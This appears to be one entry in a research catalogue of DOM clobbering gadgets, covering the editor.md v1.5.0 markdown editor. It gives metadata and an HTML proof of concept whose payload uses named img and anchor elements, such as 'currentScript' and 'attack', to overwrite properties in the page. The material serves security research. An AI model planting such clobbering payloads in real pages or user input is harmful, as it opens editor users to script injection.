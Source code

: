## editor.md

### Meta

+ Library: editor.md
+ Version: v1.5.0
+ Stars: 13.8K
+ Fingerprint: `typeof window.editor !== undefined`
+ Input: Type
+ Sanitizer: N/A
+ Capability: Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/pandao/editor.md

### Vulnerable Code Snippet

N/A

### PoC 

```html
<!--Library-->
<link rel="stylesheet" href="editor.md/css/editormd.min.css" />
<div id="editor">
    <!-- Tips: Editor.md can auto append a `<textarea>` tag -->
    <textarea style="display:none;">### Hello Editor.md !</textarea>
</div>
<script src="jquery.min.js"></script>
<script src="editor.md/editormd.min.js"></script>
<script type="text/javascript">
    $(function() {
        var editor = editormd("editor", {
            // width: "100%",
            // height: "100%",
            // markdown: "xxxx",     // dynamic set Markdown text
            path : "editor.md/lib/"  // Autoload modules mode, codemirror, marked... dependents libs path
        });
    });
</script>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Type the following rendered HTML elements to the editor and check the editor in the debugging console.</p>
<!--Payload-->
```